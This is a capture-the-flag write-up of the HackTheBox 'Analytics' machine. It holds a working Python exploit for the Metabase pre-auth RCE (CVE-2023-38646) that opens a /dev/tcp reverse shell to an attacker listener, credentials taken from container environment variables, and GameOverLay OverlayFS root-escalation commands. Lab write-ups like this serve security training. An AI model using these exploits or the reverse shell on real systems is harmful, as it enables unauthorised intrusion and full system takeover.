



## Writeup for Analytics from HackTheBox


A nmap scan was first initiated to identify the ports which can be connected to.


```bash
kali@kali:~/Desktop$ nmap -sC -sV 10.10.11.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-20 18:07 EST
Nmap scan report for 10.10.11.233
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.58 seconds
```

From the output of nmap, it appears that there is an Openssh server on port 22 and a http server on port 80. The nmap scan also revealed the domain name "analytical.htb", which was then added to /etc/hosts.


Visiting the http server, a webpage for a business which specialises in storing and analysing data for other businesses appeared. On the webpage none of the links lead to any new pages and there does not seem to be any forms which post data back to the server. On the navbar are several links, but all, except one, lead back to the homepage:


Upon clicking onto the "login" link, it directs users to "data.analytical.htb". Once the subdomain was added to /etc/hosts, it can then be viewed.


Upon visiting the site, the user is redirected to a Metabase login page:




Metabase is an open-source business intelligence tool used for data visualization and analysis. The next step taken in the enumeration of this webpage was to search the source code of the html site to see if it revealed any useful information. Soon the Metabase version was identified to be 0.46.6:




The next step was to research on Google whether this Metabase version was vulnerable to any public exploits. Soon the Metabase version was found to be vulnerable to CVE-2023-38646, as explained on this site: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/. The exploit first works only if the setup-token can be accessed at "/api/session/properties". In the case of the actual target machine, the endpoint can indeed be teached and the setup-token accessed:




The setup-token is given to users and allows them to complete the setup process for Metabase. However, it was discovered that even after setup process for Metabase was already completed, the setup-token was still present and can be viewed by unauthenticated users. This exploit uses the setup-token in order to access the endpoint "/api/setup/validate" and send a POST request to that endpoint. During the setup process, Metabase was required to connect to many databases, so this exploit would leverage this by sending a POST request to that endpoint which connects to a JDBC database. It was then found that a parameter in the payload was vulnerable to SQL injection and that it would be possible to send a payload that results in code execution and a reverse shell being sent to the attacker.


Following the steps detailed in the guide, a script was created to exploit this vulnerability:


```python
import requests, random
import base64
import sys


def get_token(url):
    response = requests.get(f"{url}/api/session/properties")
    if response.status_code == 200:
        json_data = response.json()
        return json_data.get("setup-token")
    else:
        print("Failed to fetch token. Status code:", response.status_code)
        

def encode_command(payload):
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    count = encoded_payload.count('=')

    if count >= 1:
        encoded_payload = base64.b64encode(f'{payload}{" " * count}'.encode('ascii')).decode()

    return encoded_payload


def send_to_api(url, data, token):
    encoded_data = encode_command(data)
    
    payload = {
        "token": token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(command=encoded_data),
                "advanced-options": False,
                "ssl": True
            },
            "name": "name",
            "engine": "h2"
        }
    }
    
    api_endpoint = f"{url}/api/setup/validate"
    headers = {'Content-Type': 'application/json'}
    response = requests.post(api_endpoint, headers=headers, json=payload)
    print("Exploit sent, look out for a reverse shell!")
        

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print(f"Usage: python3 {sys.argv[0]} <url> <your_ip> <your_port>")
    else:
        url = sys.argv[1].rstrip('/')
        ip = sys.argv[2]
        port = sys.argv[3]
        command = f"bash -i >&/dev/tcp/{ip}/{port} 0>&1"
        token = get_token(url)
        send_to_api(url, command, token)
```


A netcat listener was first started in order to catch the reverse shell.
Upon executing the script:


```bash
kali@kali:~$ python3 script.py http://data.analytical.htb <listener_IP> 443
Exploit sent, look out for a reverse shell!
```


A reverse shell was soon obtained as the user "metabase" on some machine.


```bash
41323e1037ed:/$ export TERM=xterm
export TERM=xterm
41323e1037ed:/$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
bash: python3: command not found
41323e1037ed:/$ whoami
whoami
metabase
41323e1037ed:/$ ls /home
ls /home
metabase
41323e1037ed:~$ sudo -l
sudo -l
bash: sudo: command not found
```


It was found that there was only one user on the machine, "metabase". It was also clear that many binaries that would usually be found in a Linux installation, such as python and sudo were not available, raising suspicions that the user "metabase" was inside a container.


Upon enumerating further in the root directory, it was soon clear that the user was in a Docker container:


```bash
41323e1037ed:~$ ls -lah /
ls -lah /
total 92K    
drwxr-xr-x    1 root     root        4.0K Dec 20 11:47 .
drwxr-xr-x    1 root     root        4.0K Dec 20 11:47 ..
-rwxr-xr-x    1 root     root           0 Dec 20 11:47 .dockerenv
drwxr-xr-x    1 root     root        4.0K Jun 29 20:40 app
drwxr-xr-x    1 root     root        4.0K Jun 29 20:39 bin
drwxr-xr-x    5 root     root         340 Dec 20 11:47 dev
drwxr-xr-x    1 root     root        4.0K Dec 20 11:47 etc
drwxr-xr-x    1 root     root        4.0K Aug  3 12:16 home
drwxr-xr-x    1 root     root        4.0K Jun 14  2023 lib
drwxr-xr-x    5 root     root        4.0K Jun 14  2023 media
drwxr-xr-x    1 metabase metabase    4.0K Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root        4.0K Jun 14  2023 mnt
drwxr-xr-x    1 root     root        4.0K Jun 15  2023 opt
drwxrwxrwx    1 root     root        4.0K Aug  7 11:10 plugins
dr-xr-xr-x  423 root     root           0 Dec 20 11:47 proc
drwx------    1 root     root        4.0K Aug  3 12:26 root
drwxr-xr-x    2 root     root        4.0K Jun 14  2023 run
drwxr-xr-x    2 root     root        4.0K Jun 14  2023 sbin
drwxr-xr-x    2 root     root        4.0K Jun 14  2023 srv
dr-xr-xr-x   13 root     root           0 Dec 20 11:47 sys
drwxrwxrwt    1 root     root        4.0K Dec 20 20:20 tmp
drwxr-xr-x    1 root     root        4.0K Jun 29 20:39 usr
drwxr-xr-x    1 root     root        4.0K Jun 14  2023 var
```


Containers are used to package applications and their dependencies together in an environment that offers some isolation from the host machine, which can prevent attackers from accessing the host machine from the container. Hence, this may explain why usually binaries such as sudo may not be made availble as this would have been a security mechanism to restrict privileges available in a container. However, containers do not provide fool-proof security and there have been techniques discovered to break out of them.


The next step in enumerating the container was to view the environment variables on the machine. This may contain further information which would assist in finding a way to escape the container:


```bash
41323e1037ed:/$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=41323e1037ed
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
TERM=xterm
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```


A password associated with a user "metalytics" was then obtained. The credentials, metalytics:An4lytics_ds20223#, were then successfully used to ssh into the target machine as the user "metalytics" on a machine named "analytics". Upon becoming this user, the user.txt file can be read.


However, further enumeration had to be performed to escalate privileges. First it was found that the user could not run sudo on the machine and that there were no other users on the machine:


```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics: 
Sorry, user metalytics may not run sudo on localhost.
metalytics@analytics:~$ ls ..
metalytics
```


It was later found that the machine had a service running on port 3000:


```bash
metalytics@analytics:~$ netstat -lptu
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
udp        0      0 localhost:domain        0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:bootpc          0.0.0.0:*                           -                   
```


In order to view what is running on port 3000, port forwarding was performed on the target machine. Port forwarding is a network technique which allows a communication request to be directed from one IP address and port to another IP address and port. In this case, when the user seeks to visit localhost:3000, the request will actually be directed from port 3000 on the uesr's machine to port 3000 of the attacker's machine, where the actual service is being hosted.


On the attacking machine, this command was used:


```bash
kali@kali:~$ sudo ssh metalytics@10.10.11.233 -L 3000:127.0.0.1:3000
```


However, once port forwarding had successfully been completed and the site localhost:3000 was visited, it was just the same Metabase login page found earlier:


Before continuing, the Operating System and Kernel's versions were checked:


```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```


It was discovered that the machine was using the Linux Kernal version 6.2.0 and was running Ubuntu version 222.04.2. For further information another command was run to view to os-release:


```bash
metalytics@analytics:~$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```


Researching for vulnerabilities targeting Ubuntu version 22.04.3 LTS (Jammy Jellyfish), it was found that it was vulnerable to the Ubuntu Privilege escalation exploit known as GameOverlayFS. This exploit and payload are explained in: https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a.


OverlayFS is a union file system in Linux that allows merging multiple directories or file systems into a single directory structure. The GameOverlay exploit utilises a Linux feature called "file capabilities" that grants elevated privileges to executables while they're executed. This feature is reserved for the root user, while lower-privileged users cannot create such files. However, the exploit is used to craft an executable file with “scoped” file capabilities to trick the Ubuntu kernel into copying it to a different location with “unscoped” capabilities, granting anyone who executes it root-like privileges.


Using the public vulnerabilities as described, the following commands were run:


```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;"
metalytics@analytics:~$ u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:/root# whoami
root
```


The root user was then successfully obtained and root.txt file could now be viewed.


Overall, gaining a foothold within the box was straightforward as it utilised a public vulnerability that had already been well documented. However, upon obtaining a reverse shell, I found the process of identifying that I was in a container and going through the steps to escape the container to be educational. The step to escalate privileges, on the other hand, required knowing of the Ubuntu version the machine was running. This allowed me to practise another vector for escalating privileges which I found less common on Hackthebox, which was using a public exploit against a vulnerable version of the Linux kernel.